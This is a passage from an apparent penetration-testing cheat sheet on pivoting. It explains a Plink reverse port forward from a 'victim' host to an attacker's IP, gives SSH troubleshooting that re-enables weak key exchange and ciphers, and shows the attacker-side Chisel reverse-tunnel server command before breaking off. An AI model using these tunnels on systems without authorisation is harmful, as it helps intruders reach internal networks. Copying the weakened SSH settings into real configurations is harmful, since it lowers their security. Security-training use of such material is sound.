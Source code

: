The above command will forward the local `victim_port` at the host that you have access to, to your `attacker_ip`:`attacker_port`

In the commands above, the `cmd.exe /c echo y |` part can be ommited if you have previously accepted the server SSH certificate.

For the above to work, you need the following configuration at your SSH server: `GatewayPorts yes`

#### Plink Troubleshooting

* Check if architecture of plink and target system are compitable (32 bit & 64 bit).
* Check the version of plink, find newest version [here](https://www.putty.org/)
*   Key exchange algorithm troubleshooting:

    * FATAL ERROR: Couldn't agree a key exchange algorithm (available: curve25519-sha256,[curve25519-sha256@libssh.org](mailto:curve25519-sha256@libssh.org),ecdh-sha2-nistp256,ecdh-sha2-nistp384,ecdh-sha2-nistp521,diffie-hellman-group16-sha512,diffie-hellman-group18-sha512,diffie-hellman-group14-sha256).
    * Solution: Try to edit **/etc/ssh/sshd\_config** and put the following to the top of the file:

    ```
     KexAlgorithms +diffie-hellman-group1-sha1
     Ciphers +aes128-cbc
    ```

    Stop ssh from attackers machine:

    ```
     systemctl stop ssh
    ```

    Regenerate the keys:

    ```
     ssh-keygen -A
    ```

    Start ssh again:

    ```
     systemctl start ssh
    ```

    Use again the plink (Victim machine)

## Chisel

#### Chisel Tunneling

You need to use the **same version for client and server** of chisel.

Server side (Attacker):

```
chisel server -p 8080 --reverse
```

Client Side (Victim):
